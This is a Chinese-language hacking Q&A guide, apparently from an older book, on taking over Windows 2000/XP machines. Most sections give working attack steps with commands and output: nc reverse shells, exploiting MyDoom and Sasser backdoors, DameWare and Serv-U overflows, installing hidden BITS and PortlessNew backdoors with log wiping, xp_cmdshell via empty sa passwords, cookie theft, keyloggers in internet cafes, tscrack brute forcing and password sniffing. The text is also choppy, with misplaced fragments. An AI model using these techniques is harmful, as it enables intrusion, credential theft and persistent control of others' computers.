肉鸡上运行这个命令：`nc -e cmd.exe ip_address 5277`（这里的 `ip_address` 为你的 IP 地址，要保证合法可用）。这个命令会将 `cmd.exe` 重定向到目标主机的 5277 端口上。这样你在本地用 NC 监听该端口时，就可以从 5277 端口获得 shell。这样就是一个命令行 shell，直接 FTP 到内网 FTP 服务器即可进行上传或下载。

### 什么样的网络模型适合于嗅探？

传输基于广播模式的网络最容易被嗅探。简单来说，多台计算机连在同一个 HUB 上时，任意一台主机安装 sniffer 都可能嗅探到大量有用信息。因为 HUB 转发数据时会以广播形式发到所有端口（所有在线主机），再由各主机判断是否接收。由此可见，这样的网络中信息会到达每台主机，因此更容易被嗅探。

### 我使用终端服务登录远程主机后，运行了一个后门程序，但第二天连接后门时无法连接，是什么原因？

第一种情况是被杀毒软件查杀；另一种情况是后门程序在第二天并没有继续运行。使用终端服务登录后启动的程序，相当于在该用户会话级别运行；当该用户注销后，相关程序会停止。这类似本地电脑注销/关机前系统自动关闭程序。因此若想保持后门，更建议利用 Win2000 的服务机制。

### Windows2000 的日志文件位置在哪里？

在被入侵服务器中，能够记录入侵者动作的主要日志文件有：

- `C:\WINNT\system32\config\AppEvent.Evt`（应用程序日志）
- `C:\WINNT\system32\config\SecEvent.Evt`（安全日志）
- `C:\WINNT\system32\config\SysEvent.Evt`（系统日志）
- `C:\WINNT\system32\LogFiles`（该文件夹下存放 Win2000 自带 IIS 各组件日志）

除上述主要日志外，系统内还有许多 `*.log` 文件。这些文件大多由应用程序生成，有的记录安全信息，有的记录错误信息，具体内容需结合对应软件判断。

### 如何判断主机的 SP 版本号是多少？

如果我们可以物理接触电脑，或是可以通过终端服务（也包括远程控制木马程序）以图形界面形式登录电脑的话，我们可以在“我的电脑”→“属性”，在“系统特性”的“常规”项中看到系统的 SP 版本号。

### 当我使用终端连接程序登录了一台 3389 主机的时候，它要我按 Ctrl+Alt+Del，可是我只要一按下，本机就会出现任务管理器，该怎么解决这个问题呀？

通过 3389 的终端连接程序登录时，快捷键和本机会有所不同，Ctrl+Alt+Del 对应的快捷键是 Ctrl+Alt+End。

### 我使用的是 Windows2000 系统，在上网的时候，屏幕上频繁地出现了“信使服务”发送过来的消息！大多是广告之类的，怎样才能拒绝这样的消息？

```bash
net stop messenger
net start messenger
```

运行 cmd，然后输入 `net stop messenger`，回车，就可以终止 messenger 服务，这样就不会收到这样的消息了。运行 `net start messenger` 可以恢复 messenger 服务。另外，使用防火墙拦截 135 端口，也可以屏蔽掉这样的消息。

### 通过 telnet 登录进系统后，怎样才能把 3389 的用户注销掉？

解决的方法很简单，只要首先看一下登录用户都是哪些（命令：`query session`），然后就可以踢掉你指定的用户了（命令：`logoff ID`）。

### 如何修改 Win2000 终端的 3389 连接端口，需要使用什么工具呢？

关于修改 Win2000 终端 3389 端口的工具有许多，比如 c3389 就是不错的一个小工具。它不仅可以查看远程主机的终端开放端口，还可以随意更改终端端口，c3389 的使用格式如下：

```bash
c3389 \\xx.xx.xx.xx administrator password
c3389 \\xx.xx.xx.xx administrator password 4389
```

这样就把默认的 3389 端口改成了 4389 端口。

### 我用 X-Scan 扫描到了一台主机的管理员弱口令，当我使用 ipcs 成功连接上去后，我们还能做什么？

可以使用管理员权限的帐号成功和远程主机建立 IPC$ 连接，这表示我们可以和对方做更深一步的“交流”了。我们可以使用各种命令行方式的工具获得对方主机的信息，管理对方主机的进程和服务等。

如果目标主机开放了默认共享（即使没有开启，也可以帮他开启），你就可以上传木马运行，也可以使用 tftp、ftp 的办法上传、下载文件。像 dwrcc、VNC、RemoteAdmin 等工具还具有直接控制屏幕的功能。如果对方的系统为 Windows2000 Server 版本，还可以考虑开启对方的终端服务，以方便控制。总之，我们可以做的有很多。


## 黑客入侵常见问题

使用 md5.exe，这是个暴力破解 MD5 密码的软件。

### 我初次使用流光，遇到一个问题，安装“Fluxay Sensor”，这是怎么一回事？要如何设置呀？

安装“Fluxay Sensor”可是流光的一个独有特色。这样做的目的是把一些扫描组件安装在你的肉鸡上，这样你以后在扫描的时候，对方就很难发现你的真实 IP 了。当然安装“Fluxay Sensor”时需要有对方主机管理员帐号的密码。

### 在网上有许多攻击测试程序都是 .pl 的，我在我的电脑上运行的时候没有反应，要怎么才能正确运行这类程序呢？

这类以 .pl 为扩展名的程序是以 Perl 语言编写的，在默认的 Windows 系统中并没有 Perl 语言的解释程序，因此运行的时候才会不被识别。我们可以安装 ActivePerl，这是一个 Windows 环境下的 Perl 语言解释程序。当安装好后，就可以使用“perl filename.pl”的格式来运行 .pl 程序了。另外也可以使用 perl2exe 将这些 Perl 程序转换成 .exe 程序，然后就可以在 Windows 系统下直接运行了。

### 什么是 Cookie 呀？

Cookie，英文解释成“小甜点、甜饼”，不过在网络中指的是通过它获得一些大家不想透露给别人的私人信息。有些时候 Cookie 甚至记录了一些身份验证等重要信息。

### 怎么才可以防止我的 WEB 服务器上的数据库文件被下载呀？

我们可以简单地把数据库文件的后缀改成 .asp、.asa，这样别人就下载不了了。也可以把数据库文件名改成“#”打头的，因为“#”在这里起到间断符的作用，地址串遇到“#”号会自动认为访问地址串结束。当然更好的办法就是结合上面两种方法，把数据库名设置成 `#data.asp` 的形式。另外，别忘了改数据库连接路径。

### 我使用跨站脚本攻击成功得到了一个论坛管理员的 Cookie，然后我该怎么办呢？

如果你只是想用他的名字发帖子，就用 iecv.exe 这个编辑 Cookie 的小工具，把你所在这个论坛的 Cookie 替换成你得到的那串 Cookie，然后关掉所有浏览器。当你再次访问这个论坛的时候，你就会发现自己已经是以他的身份登录了。如果你是想破解对方密码的话，可以使用 md5.exe，这是个暴力破解 MD5 密码的软件。

### 我是一个小菜鸟，什么样的扫描器才适合我呢？

如果你只是想快速扫描到一些有弱口令的肉鸡，或者你使用的还是 Windows9x/ME 系统的话，那么我建议你使用 X-scan2.3。流光 5 和 X-way2.6 集成的工具很多，综合能力要比 X-scan 强一些，而最新版的 X-scan3.1 对于安全漏洞的检测是目前最齐全、最多、最新的了。但是流光 5 和 X-scan3.1 只能运行在 Windows NT/2000/XP/2003 系统上。

# 黑客问答一点通

### 在两台电脑间传输文件，有什么方法？

我们可以在对方电脑上安装 FTP 服务器软件来实现文件上传或下载，也可以从对方电脑访问我们本地的 FTP 服务（需要我们自己的电脑提供 FTP 服务），来达到上传及下载的功能。若对方电脑上开放有共享目录则更方便。

### 我在浏览网页的时候，怎么才能知道我浏览网页的 IP 地址？

每个网页都会放在自己的主机（网站）上，你知道该网站的网址就会知道该网页所在位置。比如 `www.xxx.com/kkkk.asp`，该 `kkkk.asp` 就放在 `www.xxx.com` 这个网站上。只要在“开始”->“运行”栏中执行 `ping www.xxx.com` 命令，得出的 IP 地址就是该网页的 IP 地址。如果不是 WWW 开头的也是通用的，比如 `ping aaa.xxx.com` 都可以。

### 我有一个肉鸡，是 Win2000 系统，请问该如何给它远程开终端（3389）服务？

打开对方远程终端服务的前提是对方安装了该服务。若安装了却没有开放，说明对方服务处于“手动”或“已禁用”状态，需要通过修改对方注册表把“禁用”修改为“自动”，然后重新启动对方电脑即可。方法如下：

- `net use \\xxx.xxx.xxx.xxx\ipc$ password /user:"administrator"`
- 在本机上“开始”->“运行”->“regedit”，在“注册表”下拉菜单中选择“连接网络注册表”，在“计算机名”中输入 `\\xxx.xxx.xxx.xxx`，这样就进入了远程主机注册表，找到下面的位置：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService
start=2
```

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp
fEnableWinStation 值为 0 就把它改为 1
```

### 我的电脑系统是 WindowsXP，使用“远程桌面连接”登录远程电脑后，为什么不能上传下载文件，但可以修改删除文件？

WindowsXP 系统内置的“远程桌面连接”只能远程操控对方桌面，不具备在两台电脑间直接传输文件的功能。若要传输文件，可通过 FTP 服务或共享目录实现上传下载。


可以使用远程管理工具，或微软 Resource Kit 中的 shutdown 等方法。

“Password”栏中输入帐号密码，“Command”栏中输入想要执行的命令，点击下方的“Execute”按钮就可以了。注意，帐号最好为对方系统中具有管理员权限的帐号，否则有一些命令就会执行不成功。另外，如果对方屏蔽了 135 端口的话，那么这个工具就无法执行成功了。

### 我用 3389 终端控制了一台计算机，有没有什么好的方法实现文件上传和下载？

如果对方的 80 端口开放了，也就是提供 WEB 服务，你可以把想要下载的文件放在对方的网页文件目录下，然后在你自己电脑的浏览器上直接输入 `http://对方ip/filename.rar` 就会自动下载（`filename.rar` 为你想要下载的文件）。还有一个更简单的方法，就是把想要下载的文件以邮件附件形式上传到你的电子信箱中。另外，如果你在网上有自己的虚拟空间，或你自己的电脑提供了 FTP 服务，也可以从对方电脑上登录上去进行文件传输。

### 我知道远程一台 Windows2000 主机中的管理员帐号和密码，但 IPC$ 连接失败，还有别的方法远程执行命令吗？

有可能是对方禁止了 IPC$ 连接，或把 IPC$ 删除了。如果对方还开启了 135 端口的话，我们可以使用 Remoxec。这个小工具不依赖 IPC$ 连接，而是通过与对方 RPC 或 DCOM（WMI）的连接来达到远程执行命令的目的。启动后的界面如图108，可以选择使用 DCOM（WMI），“Computer”栏输入远程主机 IP 地址，“[Domain\]Account”栏中输入帐号，“Password”栏中输入密码，“Command”栏中输入想要执行的命令，然后点击“Execute”。


### 听说 MyDoom 病毒存在一个后门，感染病毒的主机可以被攻击者远程利用，是这样的吗？

确实是这样的。MyDoom 是 2004 年 2 月中旬大规模爆发的一种网络蠕虫病毒。该病毒主要通过电子邮件传播。与以往病毒不同的是，该病毒感染系统后，会在被感染主机上打开一个后门端口，用来升级为病毒新版本。这个端口通常为 3127；如果该端口已经被占用，端口号会自动往后顺延，但不会超过 3198。

利用该病毒后门的程序为 nodoom.exe，其使用格式为“nodoom 目标主机ip 3127 上传并执行的程序”。

```bash
F:\hacker\win2000\MYDOOM>
nodoom 61.***.***.89 3127 bindshell.exe
```


图109

见图109，如果一切顺利，程序会提示目标主机已经执行了我们的程序。bindshell.exe 执行后会在对方的 53 端口上自动绑定一个 CMD SHELL。因为这个端口已经固定在源程序中，因此该程序不需要任何参数格式。

```bash
F:\hacker\win2000\MYDOOM>nc -vv 61.***.***.89 53
61.177.53.89: inverse host lookup failed: h_errno 11004: NO_DATA
<UNKNOWN> [61.***.***.89] 53
<domain> open
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.

C:\Documents and Settings\Bcn>
```


图110

NC 成功得到了一个 CMD SHELL，见图110。

### 听说 sasser（振荡波病毒）也存在一个类似 MyDoom 的后门，可以被远程攻击者利用，是吗？该如何利用？

就在 Windows LSA（Local Security Authority）服务（LSASRV.DLL）远程缓冲区溢出漏洞被公布没多久，利用该漏洞编写出的一个网络蠕虫病毒程序 sasser（中文名称：振荡波）就出现了。sasser 病毒程序自动在网上寻找存在安全漏洞的主机，在攻击成功后，会打开对方的一个端口，上传自己并自动执行；而 sasser 的新变种病毒程序也会通过这个端口进行升级，就像 MyDoom 一样。

根据病毒这一特性，网上有一个 sasser 病毒利用程序。这个利用程序的具体使用见图111。

sasserftp.exe 的使用格式一共有两种：

```bash
sasserftp -d IP -p 5554 -s 'bind' -P bindshellPort -t 系统类型

sasserftp -d IP -p 5554 -s 'rev' -P 监听端口 -H 自己的IP -L -t 系统类型
```

```bash
E:\sagi\win2000>sasserftp
[%] mandragore's sploit v1.3 for sasser.x
sasserftp -d <host/ip> [opts]

Options:
-h undocumented
-p <port> to connect to [default: 5554]
-s <'bind'/'rev'> shellcode [default: 530]
-H <host/ip> for the reverse shellcode
-L setup the listener for the reverse shell
-t <target type> [default 0], choose below

Types:
0 wXP SP1 all [0x77c0bf21]
1 w2k SP4 all [0x7801d081]
```

### 如何寻找感染了 sasser 病毒的主机呢？

我们可以利用 superscan 寻找 5554 端口，5554 端口就是 sasser 病毒开启的端口，见图112。


图112


图111

```bash
E:\sagi\win2000>sasserftp -d 61.***.***.78 -p 5554 -s "bind" -P 530
[%] mandragore's sploit v1.3 for sasser.x
[*] launching attack on 61.***.***.78:5554.
[*] will try to put a bindshell on port 530.
[*] using type "wXP SP1 all"
```

[+] connected, sending exploit  
[+] connected!

Microsoft Windows XP [版本 5.1.2600]  
(C) 版权所有 1985-2001 Microsoft Corp.

C:\Documents and Settings\lenovo>

程序使用的都是一个系统漏洞，所以我们得到的这个 cmd shell 也是拥有系统权限的，见图114。

> 我在问网上的老鸟使用什么后门好时，他们都给我推荐 BITS，这个后门是如何使用的呀？

### BITS 后门使用方法

BITS 是小榕于 2003 年 9 月份发布的一款后门程序，BITS 实际上是 Background Intelligent Transfer Service 的缩写。这个后门只能在 Windows 2000/XP/2003 系统下使用。BITS 的特点主要有：在进程管理器中看不到（也就是看不到 BITS 的进程），平时并不打开任何端口，提供正向连接与反向连接。

BITS 后门服务的安装如下。

```text
F:\test>rundll32 BITS.dll,Install sagi
rundll32 BITS.dll,Install sagi
```


图113


图114


图115

我们选择了第一种使用方式，也就是正向连接方式，shellcode 绑定的端口使用了 530，没有输入“-t 系统类型”，这样程序会默认使用 WinXP SP1，见图113。我们成功地得到了对方的 cmd shell。因为 sasser 病毒与 ms04-011 lsass.exe 程序使用的都是一个系统漏洞，所以我们得到的这个 cmd shell 也是拥有系统权限的，见图114。

命令格式中的“sagi”为特征字符串，用于激活 BITS，见图115。倘若无法成功的话，我们还可以使用“rundll32 BITS.dll,Install rasauto <特征字符串>”的格式来进行尝试安装。安装好服务后，我们可以使用 nc 连接目标系统的任一开启端口，像 80、135、139、443、445 什么的都可以。

```text
E:\sagi>nc -vv 192.168.0.128 80
sagi.mshome.net [192.168.0.128] 80 <http> open
sagi@dancewithdolphin[xell]:813
```

连接成功后，输入“sagi@dancewithdolphin[xell]:813”，其中“sagi”为我们刚才设定的特征字符串，“@dancewithdolphin[xell]:”是使用正向方式连接的固定格式，我们不能做任何改动，“813”为后门开启的端口，这个端口我们自己随便选择。输入两次回车后，会看到系统的一些 banner 信息，然后就会断开与对方 80 端口的连接，不过此时后门应该已经被激活了，见图116。


连接对方的 813 端口看看。

```text
E:\sagi>nc -vv 192.168.0.128 813
sagi.mshome.net [192.168.0.128] 813 <?> open
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

E:\WINNT\system32>
```

成功地在 813 端口上得到了对方的一个 cmd shell，见图117。


来看一下如何使用反向连接方式。先使用 nc 在本地监听一个端口，见图118。


```text
E:\sagi>nc -vv -l -p 1234
listening on [any] 1234 ...
```

使用 nc 连接对方开放的一个端口，然后就一切完成了。

```text
E:\sagi>nc -vv 192.168.0.128 80
sagi.mshome.net [192.168.0.128] 80 <http> open
sagi@dancewithdolphin[rxell]:192.168.0.1:1234
```

连接成功后，我们输入“sagi@dancewithdolphin[rxell]:192.168.0.1:1234”，“sagi”为特征字符串，“@dancewithdolphin[rxell]:”为使用反向方式连接的固定格式。注意这个和上边的那个格式稍有不同，那个是“xell”，而这个是“rxell”。“192.168.0.1”为我们自己的 IP，也就是监听的 IP，“1234”为反向连接的端口号，见图119。


图120

实际上此时 BITS 后门已经在我们设定的端口上工作了。我们回到刚才监听的那个 cmd 窗口上，就会发现已经成功得到了对方的一个 cmd shell，见图120。我们可以使用 **rundll32 BITS.dll,Uninstall** 来卸载掉 BITS 后门，重新启动系统。

### PortlessNew 后门使用方法

请问一下 PortlessNew 后门的具体使用方法？

PortlessNew 是一个与小榕的 BITS 同类型的后门程序，该后门程序只能应用在 Win2000/XP/2003 系统中。首先将 PortlessNew 服务安装到目标系统上，将 portlessinst.exe 及 svchostdll.dll 上传到系统的 WINNT\SYSTEM32 目录下，放在其他目录下也是可以的，接着安装服务。

```text
F:\test>portlessinst -install sagi
135790
```

“sagi”就是与目标系统打开的端口连接成功后要输入的验证字符串，“135790”是密码。这个密码是使用正向连接上后门打开的端口时需要输入的，使用反向连接的话就不需要输入这个密码了。如果以后想更改验证字符串及密码的话，可以使用“portlessinst -set 新的验证字符串 新的密码”，重新启动后门服务或重新启动系统后，修改就生效了。


图119

如果一切顺利的话，会显示安装成功的提示。接下来，我们要启动服务。

```text
F:\test>net start iprip
net start iprip
Intranet Services 服务正在启动
Intranet Services 服务已经启动成功。
```

好了，服务已经启动成功了，我们可以使用自己的电脑来连接目标系统了，见图121。


```text
E:\sagi>nc -vv 192.168.0.128 80
sagi.mshome.net [192.168.0.128] 80
<http> open
sagi:813
```


连接上 80 端口后，我们输入验证字符串及密码，也就是“sagi:813”，验证字符串及密码之间别忘了“:”号。按两次回车，屏幕上会出现对方 80 端口的 banner 信息，然后会断开连接，但实际 PortlessNew 已经响应了我们的服务，见图122。

我们刚才使用的是正向连接方式，设定了 PortlessNew 开启的端口为 813，我们使用 nc 来连接看看。

```text
E:\sagi>nc -vv 192.168.0.128 813
sagi.mshome.net [192.168.0.128] 813 <?> open
Enter Password: 135790

Welcome To PortLess BackDoor

[Syrinx]#
```

输入密码后，成功连接 PortlessNew 后门，见图123。


下边是 PortlessNew 的一些命令。

- **sysinfo**：显示系统信息，包括 CPU 类型及主频、内存大小、操作系统类型、系统目录、显示卡类型、硬盘分区情况等，见图124。
- **installterm 端口号**：开启系统中的终端服务，并指定使用端口号。倘若对方系统中已经运行了终端服务的话，自然是安装不成功的。
- **terminalport 3345**：重新指定终端服务所使用的端口号为 3345，见图125。
- **shell**：得到对方的 cmd shell，见图126。
- **checkclone**：检测系统内的克隆帐号。
- **clone 帐号 密码**：克隆一个帐号。
- **cleanevent**：删除系统日志。
- **deluser 用户名**：删除用户。
- **listip**：显示系统所有 IP。
- **terminalport**：查看终端服务所使用的端口。
- **http://ip/文件名 保存文件名**：实现从 http 上下载文件。
- **logoff**：注销系统。
- **poweroff**：关闭电源。
- **reboot**：重新启动系统。
- **shutdown**：关闭系统。
- **exit**：退出后门。


图124


图125


图126

看一下如何使用反向连接方式。先用 nc 在本地监听一个端口，见图127。

```text
E:\sagi>nc -vv -l -p 1234
listening on [any] 1234 ...
```


图127

```text
E:\sagi>nc -vv 192.168.0.128 80
sagi.mshome.net [192.168.0.128] 80 (http) open
<sagi|192.168.0.1;1234
```

和刚才一样，先与对方建立一个连接，然后输入“sagi|192.168.0.1;1234”，前边的“sagi”是验证字符串，中间的“192.168.0.1”为我们自己的 IP，也就是监听的 IP，后边的“1234”为监听端口号。两次回车后，断开连接，见图128。


图128

回到使用 nc 监听的那个 cmd 窗口，会发现我们已经成功连接了 PortlessNew 后门，见图129。


图129

最后再让我们来看看如何删除这个后门。首先要停掉 PortlessNew 的服务：`net stop iprip`。稍等一会儿，等服务彻底停止并释放了全部内容后，再使用 `portlessinst -uninstall` 来删除。这样就会将保存在注册表内的验证字符串及密码删除掉。

### DameWare 远程溢出

听说 dameware 存在一个远程溢出，是吗，该如何利用？

dameware 是一款同 VNC 一样非常著名的远程控制软件。因为其强大的功能，许多管理员都用它来实现对服务器或局域网中工作站的远程管理，当然许多入侵者也喜欢使用它来远程控制“肉鸡”。


图130

2003 年底，在 dameware 的 3.72 及以前的 3.7.* 版本中被公布了一个非常严重的远程溢出漏洞。针对该漏洞的溢出程序在网上也可以找到好几个，dameware.exe 就是其中溢出成功率比较不错的一个。

```text
G:\hacker\win2000\dameware>
dameware

DameWare Remote Control Server
V3.7X Stack Overflow exploit

syntax: dameware <host> <your_ip> <your_port>
```

```text
[+] Connecting to 61.*.*.1 ...Done
[+] Gathering information ...Done
[i] Operating system : Win2000
[+] Service Pack : 4
[+] Setting shellcode for this version ...Done
[i] Shell should be arrived at 61.241.62.80:813 ...Done
```

从图130中我们可以看出，这个溢出程序使用的是反向连接技术。dameware.exe 与目标系统建立连接使用的是 6129 端口，所以我们也可以通过这个端口来寻找被安装了 dameware 服务的主机。另外，这个程序会自动判断目标主机采用的是 Win2000 系统还是 WinXP 系统。对于这一点，我认为这个溢出程序还是很不错的。

```text
G:\hacker\win2000>nc -vv -l -p 813
listening on [any] 813 ...
```


图132

见图132，dameware.exe 自动检测到对方主机为 Win2000+SP4，发送溢出数据成功。当然溢出成不成功还要看我们是否可以在监听的 813 端口成功得到对方的 CMD SHELL。

我们先在本机上使用 NC 进行监听，端口我使用了 813，见图131。


图131

我们对一台开放了 6129 端口的主机进行溢出测试。

```text
G:\hacker\win2000\dameware>
dameware 61.*.*.1 61.241.62.80 813

DameWare Remote Control Server
V3.7X Stack Overflow exploit
```


图133

图133是溢出成功的截图，在监听的 813 端口成功得到了对方的 CMD SHELL，而且这个 CMD SHELL 的权限为 Administrator。我们完全可以添加属于自己的后门帐号，或是安置更加隐蔽的后门程序。

### Serv-U FTP 漏洞利用

u ftp -p ftp@ftp.com

不使用 -d 参数时，程序会默认使用 ftp 也就是 21 端口来绑定对方的 cmd shell。这样就算对方有防火墙，也不会影响到程序的溢出，否则对方也就没有必要提供 FTP 服务了。从图135中我们可以看到，溢出成功了，得到了对方的一个 cmd shell。

> 我扫描到了一台可以匿名登录的 serv-u ftp 服务器，有没有什么办法可以入侵呢？

方法当然是有的。2004 年 2 月，serv-u ftp 服务器曾被公布了非常严重的安全漏洞。该漏洞只需要有一个可以成功登录的帐号（包括匿名帐号）就可以尝试进行溢出攻击。

针对该漏洞的攻击程序网上有好多，Servu345.exe 就是其中不错的一个。servu345 的使用格式如图134。

```text
servu345 -h 远程主机ip -P 服务端口 -t 系统类型 -u 用户帐号名 -p 用户帐号口令 -d shell端口
```

可以溢出的系统有 Win2000 的简体中文版、繁体中文版、英文版，以及 Windows XP SP1 的简体中文版及英文版。


图135


图134

```text
F:\hacker\win2000\servuex> servu345 -h 61.***.***.61 -P 21 -t 0 ...
```


图136

## sa 空口令与 sqlexec.exe

> 我扫描到了一台有 sa 空口令的服务器，接下来我该怎么做呢？

我建议你使用 sqlexec.exe，这个小工具可以远程连接 ms-sql 数据库系统，还可以用于远程执行命令。

sqlexec.exe 启动后的界面见图136。

在“Host:”栏中输入目标 ms-sql 主机的 IP 地址；“User:”栏中使用 sa；“Pass:”栏中输入 sa 账号的密码，如果为空可不输；连接方式使用默认的“TCP/IP”即可。点击右边的“Connect”连接按钮，如果无法连接，sqlexec.exe 会提示连接不上。

连接成功后，在下方的“Format:”栏中可以选择使用“xp_cmdshell "%s"”格式，在最下方的“CMD”栏中输入想要执行的命令，比如“net start telnet”，回车即可。命令执行后的提示信息会显示在中间窗口中，见图137。


图137

通常我们可以执行 **net use** 命令来添加一个具有管理员权限的后门帐号，然后进行 ipc$ 连接；或者执行 **net start** 命令来开启对方的 telnet 服务，然后进行登录等。

## 键盘记录工具 klogger.exe

> 都说在网吧中使用键盘记录工具就可以轻松地记录下 QQ 或信箱的登录密码，能不能给我介绍一个好用的键盘记录器？

工具在网上有许多，我不可能一一都介绍，在这儿就简单介绍 klogger.exe 吧。它会把目标主机上键盘接收的数据信息以明文方式记录在同目录下的 klogger.txt 文件中。对于你来说，唯一要做的是想办法将该程序上传到目标系统上去执行。在网吧中，这似乎是很容易办到的事儿。

klogger.exe 程序的执行实在是太简单了，就像清屏命令（cls）一样，我们只需要在命令提示符后输入“klogger”，然后回车确认就可以了，见图138。


图138

让我们打开存储记录的文件 klogger.txt，来看看记录的内容，也就是对方在键盘上输入的命令，见图139。从图中可以清楚地看到在目标主机上进行了一次成功的远程登录（telnet），并完整记录下了对方的登录帐号及密码。有一点要注意的是，每一个字符在文件中都会被连续记录三次，例如“sssyyysss”这行。的是登录账号，实际上在键盘上输入的是“sys”，而不是“sssyyyysss”。

木马程序或是后门程序，我们就可以使用这个小工具检查出来。


图139


图140

我使用 **netstat -an** 查看我的系统，发现有几个莫名其妙的端口开启了，是否有什么方法可以查看到该端口使用的程序呢？

方法当然是有的，我向你推荐一个小工具 antiyport.exe，这是一个用于查看系统进程及进程对应端口号的小工具，能够显示出进程对应使用的端口号是其最大的特点。我们可以使用这个工具方便地检查出自己系统上打开的那些莫名其妙的端口运行的是什么程序，从而判断自己的电脑是否中了木马，或是被别人植入了什么后门程序。

antiyport.exe 运行后的界面见图140，像第五行就表明了 termsrv.exe，也就是 win2000 的终端服务，其进程号为 392，使用的对应端口为 3345。

找到可疑的进程后，我们右击这个进程，在弹出的菜单中选择“kill process”就会杀掉这个进程（图141）。


图141

请问 july.exe 是如何使用的？

July 是一个用于查看系统中进程及进程模块的程序。对于查找 BITS 类的插入进程木马，或是一些使用插入进程技术的内核级后门程序，使用 July 来进行检查是非常方便的。

July 不需要安装，直接双击启动后的界面见图142，默认列出了全部的进程。


图142

我们在左栏中选择要查看的进程，比如“Explorer.EXE”，在右栏中就会详细列出该进程的名称、路径、ID 以及全部的模块名称，见图143。


图143

可不可以暴力破解 Windows2000 终端（3389）服务的登录密码呢？

要想暴力破解 Windows2000 的终端（3389）服务登录密码，不能使用我们平时常用的那些扫描工具中自带的账号破解功能，也包括其他网上常用的口令破解工具。不过，好在微软提供了一个专门用于检测 Windows2000 终端（3389）服务登录密码安全性的工具 tscrack.exe，使用这个工具也可以达到暴力破解 Windows2000 终端（3389）服务登录密码的目的。

tscrack.exe 的使用格式为：

```bash
tscrack [选项] [选项 [参数]] IP:端口
```

参数有许多，详见图144。当然了，这么多参数我们在实际使用过程中不是全部都会用到。

```bash
F:\hacker\win2000\tscrack-beta9>tscrack -t -N -B -m 7 -x 8 61.177.215.226 3389
```

“-t”为同时使用两个连接来进行破解；“-N”为尽可能在破解时不被对方日志所记录；“-B”为使用暴力模式；“-m 7”为最小口令长度为 7；“-x 8”为最大口令长度为 8；当然口令长度视具体情况而定。不使用“-l”参数指定破解账号时，默认账号为“Administrator”。


图144

运行后，我们就会在屏幕上看到两个 win2000 终端服务的登录窗口，并且在自动地进行口令验证，见图145。


图145

倘若因为网络或别的原因，登录界面不再继续检测了，我们可以点击一下“确定”，tscrack 就会对账号继续进行检测。

端口重定向到底有什么作用呢？

使用什么方法可以从 Internet 上直接访问对方内部网络中的机器？

举个例子来讲，比如对方内部局域网中的某台电脑开放了 FTP 服务，但因为是在对方内部网中，我们不能直接访问，只可以访问对方网关，那么我们就可以使用端口重定向程序将那台局域网中的电脑 FTP 服务重定向到网关的某个端口上。这样，我们在 Internet 上直接访问网关的那个端口，就可以达到访问对方内部网络的目的。

让我们看个实例。在局域网内的一台主机 192.168.0.155 上先使用 nc 在 99 端口绑定一个 cmd。这样，我们在其他电脑上使用 nc 连接 192.168.0.155 的 99 端口时就会得到一个 cmd shell。

我们现在在网关 192.168.0.1 上使用 trtool.exe，当然使用其他电脑也是可以的。

```bash
E:\sagj>trtool -m 1 -p1 813 -h2 192.168.0.155 -p2 99
```

这样，就将 192.168.0.155 的 99 端口映射到了我们本机的 813 端口上，见图146。


图146

当我们使用 `nc -vv 192.168.0.1 813`，就会成功得到一个 cmd shell，而实际上这个 cmd shell 就是我们刚才在 192.168.0.155 的 99 端口上绑定的那个 cmd shell。也就是说我们实际上访问的是 192.168.0.155 那台电脑，图147。

WindowsXP 默认是安装有终端服务的，但是这个终端服务默认并没有开启。我们右击“我的电脑”，选择“属性”，在“系统属性”菜单中选择“远程”（图148），在下方的远程桌面中勾选“允许用户远程连接到这台计算机”，确定后就可以了。


我使用的是 WindowsXP 系统，听说 WindowsXP 系统默认有防火墙，在哪儿呀？如何开启呀？

我们点击“开始”→“设置”→“网络连接”，在出现的“网络连接”菜单中右击“LAN 或高速 Internet”，选择“属性”，在本地连接属性菜单的“高级”项中，就会看到防火墙了。默认情况下该防火墙并没有被启用，勾选上确定就可以了（图149）。


听说 WindowsXP 也有终端服务，在哪儿呀？要如何设置才可以让别人访问呀？

## 黑客入侵常见问题

能不能介绍一个好用的、可以在局域网内获得密码的嗅探工具？用户名和密码将会在窗口中显示出来。

那就用 xsniff.exe。虽然这个工具的功能比不上 sniffer pro 等这些专业嗅探工具，但是 xsniff.exe 小巧，可以在命令行下操作，无需安装。我们直接把它上传到肉鸡上就可以对其局域网进行嗅探了。

xsniff 的使用格式如下：

```bash
xsniff <Options>

<Options> means:
-tcp        : Output tcp packets
-udp        : Output udp packets
-icmp       : Output icmp packets
-pass       : Filter username/password
-hide       : Run in background
-host       : Resolve IP address to hostname
-addr <IP>  : Output packets when IP address equal to <IP>
-port <Port>: Output packets when port equal to <Port>
-log <File> : Output to <File>
-asc        : Decode packets to ASCII
-hex        : Decode packets to HEX

Example:
xsniff.exe -pass -hide -log pass.log
xsniff.exe -tcp -udp -asc -addr 192.168.1.1
```

不过，倘若我们只关心使用 xsniff.exe 来捕获对方的用户名和密码的话，使用“xsniff -pass”就可以了，捕获到的用户名和密码将会在窗口中显示出来。

目前大多数网上的服务器都是使用 Windows2000 或 Windows2003 系统，我使用的是 WindowsXP 系统，可不可以也安装 IIS 服务呢？要如何安装呢？

在网上也有使用 WindowsXP 系统来架构服务器的，只是数量上没有使用 Windows2000 以及 Windows2003 的多而已。通常我们扫描时，看到对方使用的是 IIS5.1，那么对方就极有可能使用的是 WindowsXP 系统（当然也不排除对方使用的是 Windows2000 系统升级到的 IIS5.1）。


图150

给 WindowsXP 系统添加 IIS5.1 的方法有以下两种：将 WindowsXP 的安装光盘放入光驱，会自动出现安装选择界面（图150），我们选择第二项，也就是“安装可选的 Windows 组件”。系统会自动检测出我们可以安装的组件，从中我们会看到“Internet 信息服务”，勾选上它。我们也可以点击下边的“详细信息”按钮，来查看具体安装组件（图151），确定后点击“下一步”，系统就会自动添加安装了。


图151

另外，我们也可以通过“控制面板”上的“添加或删除程序”，选择“添加/删除 Windows 组件”，系统同样会检测出我们可以安装的组件（图152），放入 WindowsXP 系统安装光盘，点击“下一步”就可以进行添加安装了。


图152

- 如何才能分辨出远程主机使用的是 Windows2000 系统，还是 WindowsXP 系统，还是 Windows2003 系统呢？
